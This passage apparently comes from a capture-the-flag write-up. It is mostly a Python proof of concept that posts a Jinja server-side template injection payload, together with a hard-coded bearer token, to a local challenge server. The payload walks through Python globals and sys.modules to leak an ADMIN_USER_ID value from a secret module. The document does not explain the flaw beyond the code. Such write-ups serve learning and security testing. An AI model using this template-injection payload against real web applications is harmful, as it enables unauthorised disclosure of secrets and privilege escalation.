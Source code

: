 ### PoC

Nah, we got a simple PoC for this challenge:

```python

import requests

url = "http://localhost:8888/posts"
headers = {
    "Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYmY5NmE0MDgtYzg0OC00NmY2LThhMWMtODA1MDJjOWVhZDE4IiwidXNlcm5hbWUiOiJ0ZXN0dXNlciIsImlzX2FkbWluIjpmYWxzZSwiZW1haWwiOiJ4QGV4YW1wbGUuY29tIn0.9y0ikwQNTnP2RkE2qS-FNWF2Z9Iu5o_OXi6Tw2r8yCI",
    "Content-Type": "application/json"
}

jinja_payload = '''{{ '{0.__init__.__globals__[sys].modules[src.secret].ADMIN_USER_ID}' | attr('format')(self) }}'''

data = {
    "title": "read main.py",
    "content": jinja_payload
}

response = requests.post(url, headers=headers, json=data)
print("Status Code:", response.status_code)
print("Response:", response.text)
```


